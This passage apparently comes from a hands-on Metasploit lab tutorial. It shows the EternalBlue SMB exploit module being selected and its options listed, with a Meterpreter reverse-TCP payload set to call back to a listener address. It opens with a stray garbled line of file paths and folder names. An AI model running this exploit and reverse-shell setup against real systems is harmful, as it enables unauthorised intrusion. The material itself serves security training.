 '=2.5,!=2.5.0,!=2.5.2,!=2.6'   burp.json   CTFBuilder   Desktop   Downloads   Instructions   Pictures   Postman   Rooms   Scripts   snap   thinclient_drives   Tools
msf6 exploit(windows/smb/ms17_010_eternalblue) > 

```

The prompt tells us we now have a context set in which we will work. You can see this by typing the show options command.

**Show options**

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                             Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Stan
                                             dard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.183.129    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

